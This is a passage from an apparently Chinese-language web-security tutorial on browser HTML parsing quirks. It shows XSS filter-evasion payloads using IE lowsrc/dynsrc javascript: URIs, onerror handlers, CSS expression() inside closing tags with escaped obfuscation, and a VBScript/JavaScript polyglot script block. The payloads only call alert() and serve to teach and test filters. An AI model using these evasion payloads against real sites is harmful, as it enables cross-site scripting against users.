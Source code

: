 绿色部分是我们插入的数据，又插入了一个type属性，但是浏览器执行了alert()，浏览器实际上会执行第一个属性，后面的会忽略掉。

在IE中还有一个lowsrc的属性，跟src类似，原本是为了方便调用一个缩略图的，但是在IE6和IE7中，同时也支持伪协议javascript:，还有一个dynsrc属性也类似：

```
<img lowsrc=1 onerror=alert(1)> // 所有IE都支持
<img lowsrc=javascript:alert(2)> //IE6和IE7支持
<img src="http://www.google.de/intl/de_de/images/logo.gif" dynsrc="javascript:alert(3)" /> // 只有IE6支持

```

sytle属性中还可以定义非常多的参数：

```
<span style="color:red" style="color:green;background:yellow"> foobar</span>

```

上面代码可以看到，浏览器显示的字体为红色，背景为黄色，除了定义颜色之外也可以用expression()执行js，后面会讨论。

还有一个属性是专门用来在一个标签中插入多个的：xmlns，XML的命名空间属性，这个后面会在XML中讨论。

还有一处可Fuzzing的点即为标签的关闭，一个有趣的现象是浏览器把`<br/>`与`</br>`，`<p/>`与`</p>`成完全一样。

```
<b > foobar</b style="x:expression(alert(1))"> // 不会执行alert
<b > foo</b > bar</b style="x:expression(alert(2))"> // IE执行了alert
<script src="http://0x.lv"></b> // 不会执行

```

可以执行的代码为没有开始标签的一个闭合标签，IE8中，sytle属性可以插在一个闭合标签内，并顺利执行。

可混淆的另一个方法是:可替换为=，下面例子在IE8中可执行：

```
<//style=x:expression(if(!window.x){window.x=1;alert(1);})> 
<//style='x=expr\65 ssion(if(!window.x){window.x=1;alert(1);})'> 
</a/style='x= \a expr\65 ss/*\&#x2a/ion(if(!window.x){window.x=1;alert(1);})'>

```

HTML代码中执行js的各种方式，用以下方式定义的时候，VBscript和JavaScript都可以执行。

```
<script language=vbs>
alert+1'VBScript
alert(2)// JavaScript 
</script>

```

也有利用标签中的属性来执行js，例如：onclick，onload，onerror等等。

在iframe标签中，不需要src属性就可以顺利执行onload属性，而img标签不可以。

这是因为在iframe中没有src属性的时候，浏览器会自动加载about:blank页面，即空白页。

附件tag.php可以方便的看到当前浏览器针对各标签在不需要用户交互的情况下，可以自动执行的所有属性。
